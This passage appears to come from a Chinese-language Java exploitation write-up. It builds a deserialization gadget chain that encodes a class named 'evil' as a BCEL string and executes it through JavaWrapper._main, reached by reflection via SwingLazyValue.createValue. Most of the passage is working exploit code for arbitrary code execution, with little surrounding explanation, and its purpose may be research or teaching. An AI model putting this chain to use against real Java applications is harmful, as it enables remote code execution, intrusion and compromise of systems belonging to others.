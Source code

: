 ```java
public class payload {
    public static void main(String[] args) throws Exception {
        JavaClass evil = Repository.lookupClass(test.class);
        String payload = "$$BCEL$$" + Utility.encode(evil.getBytes(), true);
        String[] str=new String[8];
        str[0]=payload;
        JavaWrapper._main(str);
    }
}
```

### 考虑如何invoke调用_main方法

sun.swing.SwingLazyValue(初始方法，类方法参数直接传值美滋滋)

```java
public Object createValue(UIDefaults var1) {
        try {
            ReflectUtil.checkPackageAccess(this.className);
            Class var2 = Class.forName(this.className, true, (ClassLoader)null);
            Class[] var3;
            if (this.methodName != null) {
                var3 = this.getClassArray(this.args);
                Method var6 = var2.getMethod(this.methodName, var3);
                this.makeAccessible(var6);
                
                return var6.invoke(var2, this.args);
                //_main.invoke(JavaWrapper,new Object{})
            } else {
                var3 = this.getClassArray(this.args);
                Constructor var4 = var2.getConstructor(var3);
                this.makeAccessible(var4);
                return var4.newInstance(this.args);
            }
        } catch (Exception var5) {
            return null;
        }
    }
```

```java
public class payload {
    public static void main(String[] args) throws Exception {
        JavaClass evil = Repository.lookupClass(test.class);
        String payload = "$$BCEL$$" + Utility.encode(evil.getBytes(), true);
        String[] str=new String[8];
        str[0]=payload;

        SwingLazyValue main = new SwingLazyValue("com.sun.org.apache.bcel.internal.util.JavaWrapper", "_main", new Object[]{str});
        UIDefaults uiDefaults=new UIDefaults();

        main.createValue(uiDefaults);
      //  JavaWrapper._main(str);
    }
}
```
